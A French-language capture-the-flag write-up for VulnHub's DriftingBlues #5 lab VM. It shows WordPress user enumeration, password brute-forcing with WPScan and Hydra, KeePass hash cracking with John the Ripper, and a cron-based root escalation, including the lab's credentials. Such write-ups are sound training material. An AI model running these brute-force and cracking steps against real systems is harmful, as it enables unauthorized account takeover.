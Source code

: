 ```yaml
---
title: Solution du CTF DriftingBlues #5 de VulnHub
tags: [CTF, VulnHub]
---
```


Le 5ème élément
---------------

Challenge téléchargeable sur VulnHub [à cette adresse](https://www.vulnhub.com/entry/driftingblues-5,662/). Nmap nous indique tout de suite la présence d'un Wordpress.  

```console
$ sudo nmap -sCV -T5 -p- 192.168.56.10 
[sudo] Mot de passe de root :  
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for 192.168.56.10 
Host is up (0.00039s latency). 
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-generator: WordPress 5.6.2 
|_http-title: diary – Just another WordPress site 
|_http-server-header: Apache/2.4.38 (Debian)
```

C'est toujours mieux d'avoir un outil pour énumérer les utilisateurs au lieu de le faire à la main :  

```console
$ docker run -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -e ap,at,u
--- snip ---

[+] abuzerkomurcu 
 | Found By: Author Posts - Author Pattern (Passive Detection) 
 | Confirmed By: 
 |  Rss Generator (Passive Detection) 
 |  Wp Json Api (Aggressive Detection) 
 |   - http://192.168.56.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1 
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 |  Login Error Messages (Aggressive Detection) 

[+] gill 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] collins 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] satanic 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] gadd 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme cette série de CTFs se prête volontiers aux jeux de pistes j'ai directement extrait les mots des pages web en utilisant CeWL. Exemple :  

```console
$ docker run -it --rm cewl http://192.168.56.10/index.php/2021/02/24/a-deep-dive-on-the-blancpain-fifty-fathoms/ >> words.txt
```

Bien sûr, on prendra soin de trier et de retirer les doublons (voir pages de manuel de sort et uniq) avant de bruteforcer.  

```console
$ docker run -v /tmp/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -U abuzerkomurcu,gill,collins,satanic,gadd -P /data/words.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: gill, Password: interchangeable
```

Hmmm cet utilisateur n'est pas l'admin. Il peut uploader des médias, mais le type de fichier est vérifié...  

Sur le Wordpress je remarque une page de brouillon baptisée *Privacy Policy — Draft, Privacy Policy Page* malheureusement je ne peux pas y accéder.  

Dans la liste des images uploadées il y a le fichier *dblogo.png*. Il ne m'avait pas spécialement attiré, d'autant plus que les dossiers sous */wp-content/uploads/* sont listables, il n'y a donc aucun besoin d'obtenir un compte sur le Wordpress pour le retrouver. Quoiqu'il en soit si on le regarde avec un éditeur hexa on trouve ce tag EXIF :  

```html
<rdf:li photoshop:LayerName="ssh password is 59583hello of course it is lowercase maybe not " photoshop:LayerText="ssh password is 59583hello of course it is lowercase maybe not :)"/>
```

Je n'avais pas envie de me casser la tête dessus alors j'ai réutilisé un code Python [ici](https://www.geeksforgeeks.org/permute-string-changing-case/). Il n'est pas parfait, il génère des dupliquas quand le mot contient des caractères autres que des lettres.  

Une fois la wordlist avec les permutations générées on se rend compte que ça ne servait à rien :  

```console
$ hydra -L users.txt -P cases.txt ssh://192.168.56.10 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 160 login tries (l:5/p:32), ~10 tries per task 
[DATA] attacking ssh://192.168.56.10:22/ 
[22][ssh] host: 192.168.56.10   login: gill   password: 59583hello 
1 of 1 target successfully completed, 1 valid password found
```

L'accès SSH obtenu permet d'obtenir un premier flag.  

Password exchange
-----------------

Dans le dossier de l'utilisateur se trouve une archive pour le gestionnaire de mots de passe Keypass. On utilise un utilitaire de *John The Ripper* pour en obtenir un hash :  

```console
$ keepass2john keyfile.kdbx  
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fce13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b
1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd
```

C'est cassé relativement rapidement sans GPU :  

```console
$ john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8 
Loaded 1 password hash (KeePass [SHA256 AES 32/64]) 
Cost 1 (iteration count) is 60000 for all loaded hashes 
Cost 2 (version) is 2 for all loaded hashes 
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
porsiempre       (keyfile)
```

On en extrait les entrées suivantes :  

```
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

Aucun de ces mots de passe n'est accepté pour *root* que ce soit via *su* ou *SSH*... oups.  

LinPEAS indique la présence d'un dossier inhabituel à la racine :  

```
╔══════════╣ Unexpected in root 
/vmlinuz.old 
/initrd.img 
/initrd.img.old 
/vmlinuz 
/keyfolder
```

Ce dernier dossier est vide... WTF !  

Si on vérifie les processus lancés sur la machine avec *pspy* on voit une tache cron :  

```
2022/01/20 13:00:01 CMD: UID=0    PID=14314  | /usr/sbin/CRON -f  
2022/01/20 13:00:01 CMD: UID=0    PID=14315  | /bin/sh -c /root/key.sh  
2022/01/20 13:00:01 CMD: UID=0    PID=14316  | /bin/bash /root/key.sh
```

Et le script en question n'est pas accessible. Ma seule idée a été de créer des fichiers ayant le nom des pass précédemment trouvés dans le dossier. L'idée était finalement correcte mais il ne fallait placer qu'un seul fichier à la fois. Ainsi avec *fracturedocean* la tache CRON faisait apparaître un fichier *rootcreds.txt* avec le contenu suivant :  

```
root creds 

imjustdrifting31
```

Ces identifiants permettent bien sûr l'accès root et l'obtention du flag final.  

Sous le capot
-------------

Voici le script lié à la tâche CRON :  

```bash
#!/bin/bash 

if [[ $(ls /keyfolder) == "fracturedocean" ]]; then 
        echo "root creds" >> /keyfolder/rootcreds.txt 
        echo "" >> /keyfolder/rootcreds.txt 
        echo "imjustdrifting31" >> /keyfolder/rootcreds.txt 
fi

```

Un peu déçu sur ce CTF par rapport aux autres en raison d'un peu de guessing. Il aurait fallut que l'image ait un nom plus explicite et le script final devrait fonctionner à partir du moment où le fichier attendu est présent.  


*Published January 20 2022 at 18:11*
